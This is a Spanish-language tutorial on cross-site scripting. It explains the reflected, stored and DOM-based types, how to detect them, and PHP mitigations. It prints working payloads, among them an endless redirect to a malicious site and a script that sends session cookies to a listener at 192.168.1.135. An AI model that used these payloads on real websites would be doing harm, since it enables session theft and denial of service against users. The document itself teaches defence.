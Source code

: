 
# XSS

(Cross-Site Scripting)

## ¿Que es el XSS?

Cross-site scripting (también conocido como XSS) es una vulnerabilidad común de la seguridad web que permite a un atacante inyectar código malicioso en una página web.

## ¿Cómo funciona XSS?

---

El Cross-site scripting funcionan mediante la manipulación de un sitio web vulnerable para que devuelva JavaScript malicioso a los usuarios. Cuando el código malicioso se ejecuta dentro del navegador de la víctima, el atacante puede comprometer completamente su interacción con la aplicación.

![Untitled](/img/xss/xss%2089c3ffeba57145dc9cb6b57f51484e0e/Untitled.png)

## ****¿Cuáles son los tipos de ataques XSS?****

### XSS Reflected

---

tipo de vulnerabilidad web que ocurre cuando un atacante inyecta código malicioso en una página web que luego es reflejado de vuelta al usuario a través de un error de validación en la entrada de datos. Esto significa que el código malicioso se ejecuta en el navegador del usuario en lugar de en el servidor web.

Aqui podemos ver un ejemplo de XSS que con un alert nos saque la cookie de sesión

```bash
<script>
    alert(document.cookie);
</script>
```

### XSS Stored

---

Es un tipo de vulnerabilidad web que permite a un atacante inyectar código malicioso en una página web que luego se almacena en una base de datos o en el almacenamiento local del navegador del usuario. Este tipo de vulnerabilidad es más peligroso que el XSS Reflected, ya que el código malicioso se ejecuta en todos los navegadores que acceden a la página web y no solo en el navegador del usuario que realizó la acción.

este en si lo que se encarga es de hacer una continua redirección a un sitio malicioso y llegando a afectar a la disponibilidad.

```bash
<script>
    while (true) {
        window.location = "http://mi-sitio-malicioso.com/";
    }
</script>
```

Este ataque por XSS lo que se encarga es de enviar la cookie de sesión a la ip 192.168.1.135 que tendremos un puerto abierto en modo de escucha.

```bash
<script>new Image().src="http://192.168.1.135/bogus.php?output="+document.cookie;</script>
```

### XSS DOM

---

El XSS (Cross-Site Scripting) basado en el DOM (Document Object Model) es un tipo de ataque XSS que aprovecha las vulnerabilidades en la forma en que el navegador web procesa y renderiza el código HTML y JavaScript. En este tipo de ataque, el código malicioso se inyecta en una página web a través de una entrada de usuario no validada, como un formulario de entrada de datos, y luego se ejecuta en el navegador de la víctima cuando se carga la página.

```bash
<script>
var mensaje = document.createElement('h2');
mensaje.innerHTML = '¡Hola desde un ataque XSS basado en el DOM!';
document.body.appendChild(mensaje);
</script>
```

![Untitled](/img/xss/xss%2089c3ffeba57145dc9cb6b57f51484e0e/Untitled%201.png)

## Formas de detectar vulnerabilidades XSS

Existen multitud de formas para detectar vulnerabilidades XSS en una aplicación web como por ejemplo.

Escaneo automático: existen herramientas de escaneo automático de vulnerabilidades que pueden ayudar a detectar vulnerabilidades XSS. Estas herramientas realizan pruebas automatizadas de inyección de código en los formularios y campos de entrada de la aplicación, y pueden informar sobre las vulnerabilidades detectadas.

Análisis de código fuente: otra forma de detectar vulnerabilidades XSS es mediante el análisis del código fuente de la aplicación. Algunas herramientas de análisis estático de código pueden identificar patrones y fragmentos de código que son propensos a vulnerabilidades XSS.

Pruebas de penetración: las pruebas de penetración son un enfoque más exhaustivo para detectar vulnerabilidades XSS. Los expertos en seguridad pueden realizar pruebas de penetración para simular ataques XSS reales en la aplicación y determinar su nivel de riesgo.

etc.

Es importante recordar que la detección de vulnerabilidades XSS es solo una parte de un programa de seguridad completo. También es importante tomar medidas para remediar las vulnerabilidades detectadas y establecer políticas y procedimientos de seguridad adecuados para prevenir futuros ataques XSS.

## formas de securizar estos errores.

---

## XSS Reflected

Aqui tenemos una forma de securizar un XSS reflected

![Untitled](/img/xss/xss%2089c3ffeba57145dc9cb6b57f51484e0e/Untitled%202.png)

Primero, se verifica si existe un token Anti-CSRF y se comprueba si el token del usuario coincide con el token de sesión almacenado. Esto ayuda a prevenir ataques CSRF (Cross-Site Request Forgery) que intentan engañar al usuario para que realice acciones no deseadas en su sitio web.

Luego, el valor del parámetro “name” es almacenado en una variable llamada “$name” y se utiliza la función “htmlspecialchars” para escapar cualquier carácter especial y evitar posibles vulnerabilidades XSS (Cross-Site Scripting) que podrían ser explotadas por atacantes.

Finalmente, se muestra un mensaje en pantalla que contiene el valor del parámetro “name” para el usuario.

También hay una función llamada “generateSessionToken” que se encarga de generar un token Anti-CSRF único para la sesión actual del usuario.

## XSS stored

![Untitled](/img/xss/xss%2089c3ffeba57145dc9cb6b57f51484e0e/Untitled%203.png)

Este código PHP procesa un formulario de entrada que contiene un mensaje y un nombre de usuario. Si se envía el formulario (el botón “btnSign” es presionado), el código realiza lo siguiente:

Verifica si hay un token Anti-CSRF y comprueba si el token del usuario coincide con el token de sesión almacenado para prevenir ataques CSRF. Recupera el valor de los campos de entrada del formulario, “mtxMessage” y “txtName”. Sanitiza los valores ingresados por el usuario para evitar posibles vulnerabilidades XSS y SQL injection. Para esto, se eliminan las barras invertidas adicionales en el valor del campo y se escapan los caracteres especiales utilizando la función htmlspecialchars. Además, se utiliza la función mysqli_real_escape_string para escapar cualquier carácter especial en la entrada del usuario. Inserta el mensaje y el nombre de usuario en la base de datos utilizando una consulta preparada.

---

## Anexos


